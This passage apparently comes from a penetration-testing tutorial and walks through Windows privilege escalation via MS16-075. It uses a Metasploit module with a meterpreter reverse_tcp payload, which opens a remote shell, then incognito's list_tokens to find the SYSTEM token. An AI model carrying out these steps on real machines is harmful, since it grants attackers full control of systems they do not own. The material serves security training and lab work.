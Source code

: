1. Researching the MS16-075 vulnerability reveals a Metasploit module that can automate the token impersonation attack.

1. We can load the module in Metasploit by running the following command:

        use exploit/windows/local/ms16_075_reflection

1. After loading the module, you will need to configure the module options, this can be done by running the following commands:

        set payload /windows/x64/meterpreter/reverse_tcp
        set SESSION <SESSION-ID>

1. We can now run the module by running the following command:

        run

    If the module runs successfully, you should receive a new meterpreter session as shown in the screenshot below.

    ![Token impersonation - Metasploit meterpreter session](token-impersonation-metasploit-meterpreter-session.png "Token impersonation - Metasploit meterpreter session")

1. The next step involves performing the impersonation process and can be performed by loading the incognito module on meterpreter. This can be done by running the following command:

        load incognito

1. We can now use incognito to list the available tokens available for impersonation, this can be done by running the following command:

        list_tokens -u

    As shown in the following screenshot, we are able to identify the “NT AUTHORITY\SYSTEM” token.

    ![list_tokens output](list-tokens-output.png "list_tokens output")
